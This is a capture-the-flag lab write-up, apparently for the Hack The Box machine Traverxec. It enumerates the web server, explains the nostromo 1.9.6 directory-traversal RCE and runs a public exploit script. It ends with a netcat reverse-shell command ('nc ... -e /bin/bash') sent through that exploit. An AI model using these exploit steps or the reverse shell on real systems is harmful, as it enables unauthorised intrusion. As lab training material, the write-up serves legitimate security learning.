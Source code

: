 ## TCP/80 (HTTP)
- FFUF
	```bash
	                        [Status: 200, Size: 15674, Words: 3910, Lines: 401, Duration: 39ms]
	css                     [Status: 301, Size: 315, Words: 19, Lines: 14, Duration: 36ms]
	icons                   [Status: 301, Size: 315, Words: 19, Lines: 14, Duration: 35ms]
	img                     [Status: 301, Size: 315, Words: 19, Lines: 14, Duration: 34ms]
	index.html              [Status: 200, Size: 15674, Words: 3910, Lines: 401, Duration: 34ms]
	js                      [Status: 301, Size: 315, Words: 19, Lines: 14, Duration: 35ms]
	lib                     [Status: 301, Size: 315, Words: 19, Lines: 14, Duration: 36ms]
	:: Progress: [4615/4615] :: Job [1/1] :: 54 req/sec :: Duration: [0:04:41] :: Errors: 285 ::
	```



# Initial Foothold

## TCP/80 (HTTP) - nostromo/nhttpd 1.9.6 RCE
1. Found out that `nostromo 1.9.6/nhttpd 1.9.6` webserver is running
	![]({{ page.img_path }}Pasted%20image%2020220925014140.png)
2. Search exploits for `nostromo 1.9.6`
	
	| Exploit Title                                                        | Path                     |
	| -------------------------------------------------------------------- | ------------------------ |
	| Nostromo - Directory Traversal Remote Command Execution (Metasploit) | multiple/remote/47573.rb |
	| nostromo 1.9.6 - Remote Code Execution                               | multiple/remote/47837.py |
	| nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Execution | linux/remote/35466.sh    |
3. How does `nostromo 1.9.6 - Remote Code Execution` - (`multiple/remote/47837.py`) work?
	- Due to the lack of input sanitization, there is a directory traversal vulnerability in the function `http_verify`, attackers can include `/bin/sh` to do remote code execution.
	- Carriage returns (`\r, %0d`) is used to bypass the input sanitization of `/../` (Directory Traversal), allowing attackers to include `/bin/sh` to execude code.
	- [More Info](https://www.sudokaikan.com/2019/10/cve-2019-16278-unauthenticated-remote.html)
4. Try `nostromo 1.9.6 - Remote Code Execution` - (`multiple/remote/47837.py`)
	1. Run exploit
		```
		┌──(root💀kali)-[~/htb/traverxec/10.10.10.165/exploit]
		└─# python2 47837.py traverxec.htb 80 'id;whoami'
		
		HTTP/1.1 200 OK
		Date: Sat, 24 Sep 2022 17:48:31 GMT
		Server: nostromo 1.9.6
		Connection: close
		
		
		uid=33(www-data) gid=33(www-data) groups=33(www-data)
		www-data
		```
	2. Start `netcat` listener
		```
		┌──(root💀kali)-[~/htb/traverxec/10.10.10.165/exploit]
		└─# nc -nvlp 4444
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		```
	3. Invoke reverse shell
		```
		┌──(root💀kali)-[~/htb/traverxec/10.10.10.165/exploit]
		└─# python2 47837.py traverxec.htb 80 'nc 10.10.14.14 4444 -e /bin/bash'
		```